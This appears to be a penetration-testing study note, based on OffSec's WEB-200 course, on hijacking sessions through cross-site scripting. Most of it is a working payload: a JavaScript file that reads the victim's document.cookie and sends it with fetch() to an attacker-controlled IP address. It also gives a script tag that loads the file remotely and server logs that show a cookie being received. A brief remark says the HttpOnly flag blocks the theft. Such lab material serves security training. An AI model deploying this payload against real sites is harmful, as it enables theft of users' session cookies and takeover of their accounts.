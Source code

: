 # Exploitation

> _All the content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

{% hint style="warning" %}
`.js` files containing pure JavaScript payloads need to be used with a tag that will automatically execute them, e.g. `<script>`. They cannot be used with Client XSS vulnerabilities that use `innerHTML`.
{% endhint %}

## Session Hijacking

We can create a malicious JavaScript file and exfiltrate the target's session cookie.

{% code title="xss.js" overflow="wrap" %}
```javascript
// save the value of the cookie in a variable
let cookie = document.cookie
// URL-encode the variable
let encodedCookie = encodeURIComponent(cookie)

// make a GET request to our attacker machine exfiltrating the cookie
fetch("http://192.168.45.214/exfil?data=" + encodedCookie)
```
{% endcode %}

We can serve the payload using the same script as above.

```javascript
<script src="http://192.168.45.214/xss.js"></script>
```

When the target clicks the malicious link, we will receive their cookie.

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [05/Aug/2024 12:07:13] "GET /xss.js HTTP/1.1" 200 -
192.168.198.101 - - [05/Aug/2024 12:07:13] code 404, message File not found
192.168.198.101 - - [05/Aug/2024 12:07:13] "GET /exfil?data=session%3DSomeExampleCookie HTTP/1.1" 404 -
```
{% endcode %}

If the cookie has the [`HttpOnly`](../../common-findings/cookie-flags.md) flag set, JavaScript cannot access it, thus, we can't exfiltrate its value.

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [05/Aug/2024 12:15:53] "GET /xss.js HTTP/1.1" 200 -
192.168.198.101 - - [05/Aug/2024 12:15:53] code 404, message File not found
192.168.198.101 - - [05/Aug/2024 12:15:53] "GET /exfil?data= HTTP/1.1" 404 -
```
